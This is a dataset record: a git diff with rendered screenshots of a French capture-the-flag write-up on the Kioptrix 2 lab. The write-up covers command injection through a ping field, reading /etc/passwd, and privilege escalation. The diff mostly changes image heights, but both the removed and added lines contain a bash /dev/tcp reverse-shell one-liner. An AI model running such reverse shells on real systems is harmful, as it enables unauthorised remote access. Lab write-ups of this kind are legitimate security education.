

Before and after one commit to rajoul/rajoul.github.io, a Jekyll site: the page built from my_write_up/Kioptrix_2.md, in a window 1280 px wide and 900 px high, scrolled down 4814 px. Shown: the whole window, without its empty margins (108-1165 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update Kioptrix_2.md

```diff
--- a/my_write_up/Kioptrix_2.md
+++ b/my_write_up/Kioptrix_2.md
@@ -56,13 +56,13 @@
 </p>
 Alors,on va essayer de concatener la commande ping avec une autre commande ,afin de savoir si notre champs nous permet d'envoyer un reverse shell.
 <p align="center">
-  <img src="https://rajoul.github.io/my_write_up/image/kioptrix_2/cat_etc_passwd_9.png" width="860" height="170">
+  <img src="https://rajoul.github.io/my_write_up/image/kioptrix_2/cat_etc_passwd_9.png" width="860" height="220">
 </p>
 Succès,on a réussi à lire le fichier /etc/passwd.donc on va essayer d'anvoyer un reverse shell vers ma machine avec la commande nc
 <p align="center">
   <img src="https://rajoul.github.io/my_write_up/image/kioptrix_2/nc_reverse_shell_10.png" width="860" height="170">
 </p>
-je met en mode écoute pour un reverse shell,et rien n'est passé.Donc la commande netcat peut etre n'est pas installé,donc il faut essayer avec une méthode.\textbf{bash -i >& /dev/tcp/10.0.4.4/1234 0>&1} est une commande qui permet de nous envoyer un reverse shell.
+je met en mode écoute pour un reverse shell,et rien n'est passé.Donc la commande netcat peut etre n'est pas installé,donc il faut essayer avec une méthode.**bash -i >& /dev/tcp/10.0.4.4/1234 0>&1** est une commande qui permet de nous envoyer un reverse shell.
 <p align="center">
   <img src="https://rajoul.github.io/my_write_up/image/kioptrix_2/get_reverse_shell_11.png" width="860" height="170">
 </p>
@@ -73,12 +73,12 @@
 ###### 3.2 Escalation de privilèges
 continuant avec le shell inversé, je devais rassembler des informations supplémentaires sur le système.
 <p align="center">
-  <img src="https://rajoul.github.io/my_write_up/image/kioptrix_2/uname_13.png" width="860" height="170">
+  <img src="https://rajoul.github.io/my_write_up/image/kioptrix_2/uname_13.png" width="860" height="130">
 </p>
 Génial! Maintenant que nous savons que le système d'exploitation était CentOS version 2.6.9–55.\\
 Ensuite, j'ai examiné la base de données searchsploit installée sur le système Kali local pour déterminer s'il existait une vulnérabilité de CentOS de la version 2.6.9–55 du noyau.
 <p align="center">
-  <img src="https://rajoul.github.io/my_write_up/image/kioptrix_2/metasploit.png" width="860" height="170">
+  <img src="https://rajoul.github.io/my_write_up/image/kioptrix_2/metasploit.png" width="860" height="280">
 </p>
 alors on a trouvé un script en C qui exploite cette vulnérabilité de centos.alors je copier le script dans mon répertoire de travail pour l'éxécuter sur la machine cible.
 <p align="center">
```
